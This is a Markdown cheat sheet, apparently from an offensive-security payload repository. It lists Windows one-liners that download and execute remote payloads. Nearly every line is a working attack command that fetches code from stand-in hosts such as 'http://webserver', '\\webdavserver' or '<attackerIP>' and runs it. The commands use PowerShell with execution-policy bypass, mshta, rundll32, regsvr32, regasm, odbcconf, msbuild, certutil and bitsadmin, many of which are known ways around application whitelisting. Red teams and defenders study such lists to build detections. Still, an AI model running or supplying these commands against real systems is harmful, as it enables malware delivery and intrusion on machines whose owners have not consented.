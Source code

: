 # Windows - Download and execute methods

## Downloaded files location

- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell

From an HTTP server

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

From a Webdav server

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

## Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

## Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```


## Thanks to

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
